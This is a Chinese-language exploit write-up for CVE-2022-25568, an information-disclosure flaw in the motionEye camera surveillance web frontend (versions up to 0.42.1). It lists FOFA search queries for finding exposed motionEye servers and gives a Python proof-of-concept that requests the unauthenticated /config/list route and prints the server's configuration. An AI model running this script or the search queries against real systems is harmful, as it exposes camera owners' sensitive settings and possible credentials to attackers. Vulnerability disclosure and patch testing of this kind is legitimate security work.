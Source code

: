 # MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用Python写的motion的Web前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的URL即可获取服务器敏感信息

## 漏洞影响

```
MotionEye <= v0.42.1
```

## FOFA

```
banner="motionEye"

app="motionEye"
app="motionEye-摄像头服务器"
app="motionEye/0.39.3"
app="motionEye/0.40"
app="motionEye01"
app="motionEye/0.33"
app="motionEye/0.35"
```

## 漏洞复现

通过查看响应Server判断是否使用，访问路由`/config/list`

## 漏洞POC

```python
import sys
import json
import requests
def exp(url):
    if url[-1] == "/":
        url = url + "config/list"
    else:
        url = url + "/config/list"
    rus = requests.get(url, verify=False)
    print("信息泄露内容:")
    print(json.dumps(json.loads(rus.text), sort_keys=True, indent=4))
if __name__ == '__main__':
    ip = sys.argv[1]
    print("访问IP:{0}".format(ip))
    exp(ip)
```

